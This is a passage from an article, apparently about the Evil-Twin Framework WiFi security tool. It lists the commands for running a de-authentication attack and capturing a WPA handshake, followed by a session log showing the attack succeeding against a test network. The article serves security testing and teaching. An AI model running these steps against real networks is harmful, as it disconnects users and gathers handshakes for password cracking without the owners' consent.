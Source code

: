 Figure 2: Scenario for capturing a WPA handshake after a de-authentication attack

The consideration in this example is the ETF's reliability. The goal is to find out if the tools can consistently capture the WPA handshake. The scenario will be performed multiple times with each tool to check its reliability when capturing the WPA handshake.

There is more than one way to capture a WPA handshake using the ETF. One way is to use a combination of the AirScanner and AirInjector modules; another way is to just use the AirInjector. The following scenario uses a combination of both modules.

The ETF launches the AirScanner module and analyzes the IEEE 802.11 frames to find a WPA handshake. Then the AirInjector can launch a de-authentication attack to force a reconnection. The following steps must be done to accomplish this on the ETF:

  1. Enter the AirScanner configuration mode: **config airscanner**
  2. Configure the AirScanner to not hop channels: **config airscanner**
  3. Set the channel to sniff the traffic on the access point channel (APC): **set fixed_sniffing_channel = <APC>**
  4. Start the AirScanner module with the CredentialSniffer plugin: **start airscanner with credentialsniffer**
  5. Add a target access point BSSID (APS) from the sniffed access points list: **add aps where ssid = <APS>**
  6. Start the AirInjector, which by default lauches the de-authentication attack: **start airinjector**



This simple set of commands enables the ETF to perform an efficient and successful de-authentication attack on every test run. The ETF can also capture the WPA handshake on every test run. The following code makes it possible to observe the ETF's successful execution.

```
███████╗████████╗███████╗
██╔════╝╚══██╔══╝██╔════╝
█████╗     ██║   █████╗  
██╔══╝     ██║   ██╔══╝  
███████╗   ██║   ██║    
╚══════╝   ╚═╝   ╚═╝    
                                       

[+] Do you want to load an older session? [Y/n]: n
[+] Creating new temporary session on 02/08/2018
[+] Enter the desired session name:
ETF[etf/aircommunicator/]::> config airscanner
ETF[etf/aircommunicator/airscanner]::> listargs
  sniffing_interface =               wlan1; (var)
              probes =                True; (var)
             beacons =                True; (var)
        hop_channels =               false; (var)
fixed_sniffing_channel =                  11; (var)
ETF[etf/aircommunicator/airscanner]::> start airscanner with
arpreplayer        caffelatte         credentialsniffer  packetlogger       selfishwifi        
ETF[etf/aircommunicator/airscanner]::> start airscanner with credentialsniffer
[+] Successfully added credentialsniffer plugin.
[+] Starting packet sniffer on interface 'wlan1'
[+] Set fixed channel to 11
ETF[etf/aircommunicator/airscanner]::> add aps where ssid = CrackWPA
ETF[etf/aircommunicator/airscanner]::> start airinjector
ETF[etf/aircommunicator/airscanner]::> [+] Starting deauthentication attack
                    - 1000 bursts of 1 packets
                    - 1 different packets
[+] Injection attacks finished executing.
[+] Starting post injection methods
[+] Post injection methods finished
[+] WPA Handshake found for client '70:3e:ac:bb:78:64' and network 'CrackWPA'
```


[#]: collector: (lujun9972)
[#]: translator: ( )
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: url: ( )
[#]: subject: (The Evil-Twin Framework: A tool for improving WiFi security)
[#]: via: (https://opensource.com/article/19/1/evil-twin-framework)
[#]: author: (André Esser https://opensource.com/users/andreesser)
[a]: https://opensource.com/users/andreesser
[b]: https://github.com/lujun9972
[1]: https://en.wikipedia.org/wiki/Rogue_access_point
[2]: https://www.python.org/
[3]: https://scapy.net
[4]: /file/417776
[5]: https://opensource.com/sites/default/files/uploads/pic1.png (Evil-Twin Framework Architecture)
[6]: https://www.metasploit.com
[7]: /file/417781
[8]: https://opensource.com/sites/default/files/uploads/pic2.png (Scenario for capturing a WPA handshake after a de-authentication attack)
[9]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[10]: /file/417786
[11]: https://opensource.com/sites/default/files/uploads/pic3.png (Scenario for capturing a WPA handshake after a de-authentication attack)
[12]: /file/417791
[13]: https://opensource.com/sites/default/files/uploads/pic4.png (Scenario for capturing a WPA handshake after a de-authentication attack)
[14]: https://github.com/Esser420/EvilTwinFramework